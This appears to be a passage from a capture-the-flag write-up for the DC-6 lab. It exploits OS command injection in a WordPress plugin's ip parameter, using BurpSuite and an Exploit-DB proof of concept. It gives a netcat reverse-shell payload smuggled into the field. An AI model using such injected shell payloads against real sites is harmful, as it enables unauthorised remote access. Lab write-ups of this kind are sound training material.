 
## Exploitation
### Command Injection

The Plainview Activity Monitor plugin before 20180826 for WordPress is vulnerable to OS command injection via shell metacharacters in the ip parameter of a wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools request. 

The POC (Proof of Concept) you can download it [here](https://www.exploit-db.com/exploits/45274).

Following the instructions, we need to inject the **IP or integer** field, start BurpSuite and check if the **Intercept is on** button is enabled, then we type an IP address and click on **Convert**.

![](/assets/images/dc6/screenshot-4.png)

The request was intercepted, then we set up a netcat listener on port 443 and typed the following netcat command as shown bellow.

`http://192.168.179.187 | nc 192.168.179.1 443 -e /bin/bash`
